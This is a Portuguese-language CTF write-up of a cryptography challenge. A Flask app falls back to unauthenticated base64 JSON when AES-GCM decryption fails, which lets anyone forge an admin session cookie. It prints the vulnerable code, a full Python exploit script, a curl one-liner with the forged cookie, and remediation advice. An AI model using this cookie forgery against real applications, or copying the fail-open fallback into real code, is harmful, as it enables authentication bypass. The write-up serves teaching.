

# Phantom Decrypt | Fluid Attacks CTF 2026

`crypto` `aes-gcm` `fail-open` `insecure-fallback` `cookie-forgery`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Cryptography |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O cookie de sessão é cifrado com AES-GCM (chave aleatória de 32 bytes que eu nunca vou adivinhar). Mas a função `decrypt_session` tem um fallback: se a decifragem GCM falhar, ela cai no `except` e faz `json.loads(base64.b64decode(cookie))`, aceitando JSON em claro. Então eu nem tento quebrar o GCM: mando um cookie que é só o base64 de `{"user":"...","role":"admin"}`. O GCM falha, o fallback lê meu JSON direto, o dashboard me vê como admin e imprime a flag.

> [!IMPORTANT]
> **Ideia-chave:** criptografia forte não salva nada se o código "falha aberto". Um `except` que aceita dados não autenticados anula o AES-GCM inteiro.

## Enunciado

> SecureVault. Sessões protegidas por criptografia autenticada AES-GCM. Guest access: guest / guest123.

**Arquivos / instância:** `app.py` (Flask) e um endpoint. Na minha instância o host era `e22327817c4ca081.chal.ctf.ae` (HTTP). Login de convidado `guest/guest123` dá `role=viewer`; o dashboard só mostra a "Admin Recovery Key" (a flag) para `role=admin`.

## Dicas progressivas

<details><summary>Dica 1</summary>Você não precisa quebrar o AES-GCM. Leia a função <code>decrypt_session</code> inteira, até o <code>except</code>.</details>
<details><summary>Dica 2</summary>Quando a verificação GCM falha, o código tem um caminho alternativo que não usa a chave. O que ele faz com o cookie?</details>
<details><summary>Dica 3</summary>Mande um cookie que seja só <code>base64(JSON)</code> com <code>role=admin</code>. O GCM vai falhar de propósito e o fallback lê seu JSON.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`). Dá pra fazer com `curl` também.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=http://e22327817c4ca081.chal.ctf.ae
```

Na minha instância era esse host. Use o da sua (o script lê `TARGET`).

## Resolução

### 1. Revisão do código: o fallback inseguro

#### `app.py`

O que me interessou foi só a decifragem do cookie:

```python
def decrypt_session(cookie: str) -> dict:
    try:
        raw = base64.b64decode(cookie)
        nonce = raw[:12]
        tag = raw[12:28]
        ciphertext = raw[28:]
        cipher = AES.new(SECRET_KEY, AES.MODE_GCM, nonce=nonce)
        plaintext = cipher.decrypt_and_verify(ciphertext, tag)   # caminho seguro
        return json.loads(plaintext)
    except Exception:
        session_data = json.loads(base64.b64decode(cookie))      # <-- fallback: JSON em claro!
        return session_data
```

O caminho feliz usa `decrypt_and_verify`, que exige o tag GCM correto (impossível sem a chave). Mas qualquer exceção, inclusive a falha de autenticação do GCM, cai no `except`, que decodifica o base64 e faz `json.loads` direto, sem chave, sem tag, sem nada. E o dashboard confia cegamente no `role`:

```python
if role == "admin":
    flag_section = f"<p><b>Admin Recovery Key:</b> {FLAG}</p>"
```

> [!TIP]
> **Conceito: fail-open (falhar aberto) em criptografia autenticada.** AES-GCM é AEAD: sem a chave, você não forja um ciphertext com tag válido. A segurança depende de que, quando a verificação falha, o pedido seja **rejeitado**. Um `except` que troca o dado autenticado por um dado controlado pelo cliente é "falhar aberto": o atacante só precisa fazer a verificação falhar (o que é trivial) para cair no caminho sem checagem. Referência: [OWASP: Error Handling / fail securely](https://owasp.org/www-community/Fail_securely).

### 2. Forjando o cookie

Qualquer coisa que não seja um blob GCM válido cai no fallback. O cookie mais simples é o base64 de um JSON com `role=admin`. Script completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
import base64
import json
import os
import re
import time
import requests
import urllib3

# Desativa warning de certificado caso o alvo responda em HTTPS com certificado inválido.
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Alvo do desafio. Pode ser sobrescrito com:
# TARGET=http://host python3 script1.py
TARGET = os.environ.get("TARGET", "http://e22327817c4ca081.chal.ctf.ae").rstrip("/")

def build_forged_cookie():
    """
    Cria um cookie falso aceito pela função decrypt_session().

    A aplicação tenta primeiro decifrar AES-GCM.
    Como nosso cookie não é AES-GCM válido, isso gera exceção.

    Em seguida, por causa do fallback inseguro, ela executa:
        json.loads(base64.b64decode(cookie))

    Então basta enviar JSON puro em Base64 com role=admin.
    """
    session_data = {
        "user": "guerreiro",
        "role": "admin",
        "iat": int(time.time())
    }

    raw_json = json.dumps(session_data, separators=(",", ":")).encode()
    token = base64.b64encode(raw_json).decode()

    return token, session_data

def main():
    token, session_data = build_forged_cookie()

    print("[*] Target:", TARGET)
    print("[*] Sessão forjada:", session_data)
    print("[*] Cookie session_token:", token)
    print()

    url = TARGET + "/dashboard"

    # Envia o cookie forjado diretamente para o dashboard.
    response = requests.get(
        url,
        cookies={"session_token": token},
        timeout=15,
        verify=False,
        allow_redirects=False,
    )

    print("=" * 80)
    print("RESPOSTA HTTP")
    print("=" * 80)
    print("Status:", response.status_code)
    print("URL:", url)
    print()

    print("=" * 80)
    print("CORPO DA RESPOSTA")
    print("=" * 80)
    print(response.text)
    print()

    # Procura automaticamente a flag no HTML.
    match = re.search(r"flag\{[^}\r\n]+\}", response.text, re.IGNORECASE)

    print("=" * 80)
    print("RESULTADO")
    print("=" * 80)

    if match:
        flag = match.group(0)
        print("[+] FLAG ENCONTRADA:", flag)

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
        return

    print("[-] Flag não encontrada automaticamente.")
    print("[-] Verifique se o alvo está usando HTTP ou se o host expirou.")

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
[*] Sessão forjada: {'user': 'guerreiro', 'role': 'admin', 'iat': 1783175611}
[*] Cookie session_token: eyJ1c2VyIjoiZ3VlcnJlaXJvIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzgzMTc1NjExfQ==
Status: 200
...[snip]...
      <div class="flag-value">flag{0eacf61d486XXXXX}</div>
[+] FLAG ENCONTRADA: flag{0eacf61d486XXXXX}
```

O mesmo em `curl`, se preferir sem script (o cookie é fixo, já em base64):

***INSERIR no terminal: Kali (atacante)

```bash
curl -s "$TARGET/dashboard" -b 'session_token=eyJ1c2VyIjoiZ3VlcnJlaXJvIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzgzMTc1NjExfQ==' | grep -i flag-value
```

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que "usar AES-GCM" equivale a "sessão segura". O AES-GCM estava correto; o erro é o tratamento de exceção. Ao capturar `Exception` e substituir o resultado autenticado por `json.loads` do cookie bruto, o código entrega ao cliente o controle total do conteúdo da sessão sempre que a decifragem falhar, e fazer ela falhar é trivial (basta um cookie que não seja GCM válido). A primitiva resultante é forjar qualquer sessão, inclusive `role=admin`.

## Remediação

- Remover o fallback. Se `decrypt_and_verify` lançar exceção, rejeitar a sessão (redirecionar para login), nunca aceitar JSON em claro.
- Nunca ter um caminho de código que leia dados de sessão sem autenticação.

## Lições e padrões

- **Sinais para reconhecer:** `try/except` largo em volta de uma verificação de integridade, com um "plano B" que lê o mesmo dado de outro jeito. Procure o `except` toda vez que vir AEAD/HMAC num desafio: o bug raramente está na cripto, está no entorno dela.
- **Da próxima vez eu tentaria primeiro:** ler o caminho de erro antes do caminho feliz. Em cookies cifrados, o teste mais rápido é mandar lixo e ver se o servidor rejeita ou "conserta".

## Referências

- [OWASP: Fail securely](https://owasp.org/www-community/Fail_securely)
- [AES-GCM (AEAD) overview](https://en.wikipedia.org/wiki/Galois/Counter_Mode)

## Flag

```text
flag{0eacf61d486XXXXX}
```
